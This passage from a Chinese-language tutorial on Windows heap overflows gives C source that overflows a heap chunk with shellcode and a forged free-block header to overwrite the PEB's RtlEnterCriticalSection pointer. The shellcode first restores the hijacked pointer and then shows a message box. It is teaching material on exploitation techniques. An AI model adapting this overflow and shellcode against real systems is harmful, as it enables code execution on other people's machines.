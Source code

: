 	"\x16\x01\x1A\x00\x00\x10\x00\x00"	// head of the ajacent free block
	"\x88\x06\x36\x00\x20\xf0\xfd\x7f";	// 0x00360688 is the address of shellcode in first heap block
										// you have to make sure this address via debug
										// 0x7ffdf020 is the position in the PEB which hold a pointer to
										// RtlEnterCriticalSection() and will called by ExitProcess() at last
</code></pre>

那个消息框不会显示，原因是被修改的P.E.B里的函数指针不光会被ExitProcess()调用，shellcode中的函数也会使用。当shellcode的函数使用临界区时，会像ExitProcess()一样被骗。

为此，需要对shellcode进行修改，在一开始就将DWORD SHOOT的指针修复回去，以防出错。重新调试，发现0x7FFDF020处的函数指针是0x77F82060.

<font color=#f00>P.E.B中RtlEnterCriticalSection()函数指针位置0x7ffdf020不会变，但是所指向的地址会变。劫持进程之后，一定要修复回劫持之前的值，否则会出现各种问题！</font>

<pre><code>

#include &lt;windows.h&gt;

char shellcode[] =
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"

	// repaire the pointer which shooted by heap over run
	"\xB8\x20\xF0\xFD\x7F"		// MOV EAX, 7FFDF020
	"\xBB\x60\x20\xF8\x77"		// MOV EBX, 0x77F86020 the address
								// may releated to your OS
	"\x89\x18"					// MOV DWORD PTR DS:[EAX], EBX

	// MessageBoxA with tile "failwest" and context "failwest"
	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
	"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
	"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
	"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
	"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
	"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
	"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
	"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
	"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
	"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
	"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"

	"\x16\x01\x1A\x00\x00\x10\x00\x00"	// head of the ajacent free block
	"\x88\x06\x36\x00\x20\xf0\xfd\x7f";	// 0x00360688 is the address of shellcode in first heap block
										// you have to make sure this address via debug
										// 0x7ffdf020 is the position in the PEB which hold a pointer to
										// RtlEnterCriticalSection() and will called by ExitProcess() at last


int main()
{
    HLOCAL h1=0, h2=0;
    HANDLE hp;
    hp = HeapCreate(0, 0x1000, 0x10000);
    h1 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 200);
    //__asm int 3		//used to break process
    memcpy(h1, shellcode, 0x200);	//overflow, 0x200=512
    h2 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 8);
    return 0;
}
</code></pre>
